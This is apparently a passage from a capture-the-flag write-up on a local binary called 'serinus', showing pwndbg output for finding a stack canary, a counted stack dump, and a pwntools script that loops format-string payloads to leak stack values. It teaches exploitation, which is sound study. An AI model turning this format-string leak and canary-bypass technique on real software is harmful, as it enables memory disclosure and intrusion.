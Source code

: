 ```
pwndbg> canary
AT_RANDOM  = 0xffffd08b # points to global canary seed value
TLS Canary = 0xf7fc0514 # address where canary is stored
Canary     = 0x2c0e0b00 (may be incorrect on != glibc)
Thread 1: Found valid canaries.
00:0000│-17c 0xffffcc4c ◂— 0x2c0e0b00
Additional results hidden. Use --all to see them.
```

We can see that the current value for the canary is `0x2c0e0b00`. Let's take a look at the stack to see where this value is in relation to the stack pointer (ESP).

```
pwndbg> x/50x $esp
0xffffcd60:     0xffffcd7c      0x00000000      0x00000002      0x00000000
0xffffcd70:     0x00000000      0x00000001      0xf7ffda60      0x00736559
0xffffcd80:     0x00000000      0xffffd08b      0x00000002      0xffffcdb8
0xffffcd90:     0xf7ffcfec      0x00000000      0x00000014      0x00000000
0xffffcda0:     0xf7fc5570      0xf7fc5000      0x00000000      0x00000000
0xffffcdb0:     0x00000000      0x00000000      0xffffffff      0x2c0e0b00
0xffffcdc0:     0xf7fbf400      0xf7f96e14      0xffffcde8      0x08049316
0xffffcdd0:     0x00000000      0x00000000      0x00000000      0x2c0e0b00
0xffffcde0:     0x00000000      0x00000000      0x00000000      0xf7d88cc3
0xffffcdf0:     0x00000001      0xffffcea4      0xffffceac      0xffffce10
0xffffce00:     0xf7f96e14      0x080490cd      0x00000001      0xffffcea4
0xffffce10:     0xf7f96e14      0x0804bf00      0xf7ffcb60      0x00000000
0xffffce20:     0x72bf4584      0x3c3da394
```

Our stack canary looks to be at memory address `0xffffcdb0`, and is the fourth pointer on that row.

We could just count down from these to determine the actual index of the stack canary, just remember that array values start with an index of 0.

```
0xffffcd60:     0xffffcd7c      0x00000000      0x00000002      0x00000000 <- 0-3
0xffffcd70:     0x00000000      0x00000001      0xf7ffda60      0x00736559 <- 4-7
0xffffcd80:     0x00000000      0xffffd08b      0x00000002      0xffffcdb8 <- 8-11
0xffffcd90:     0xf7ffcfec      0x00000000      0x00000014      0x00000000 <- 12-15
0xffffcda0:     0xf7fc5570      0xf7fc5000      0x00000000      0x00000000 <- 16-19
0xffffcdb0:     0x00000000      0x00000000      0xffffffff      0x2c0e0b00 <- 20-23
```

This means that our supposed index for the stack canary will be at index `23`.

There are also other ways to enumerate that don't involve GDB. We could simply iterate through payloads containing pointers 1-100 and automate the process, looking for key addresses that generally do not start with an `ff` and end in `00` like our initial hypothesis included. The below is a Python script that will print out each stack pointer using the format string vulnerability.

```Python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,100):
    p = process("./serinus")
    payload = f'ABCDABCD.%{i}$p'
    p.sendline(payload)
    print(p.recv(),i)
    p.close()
```
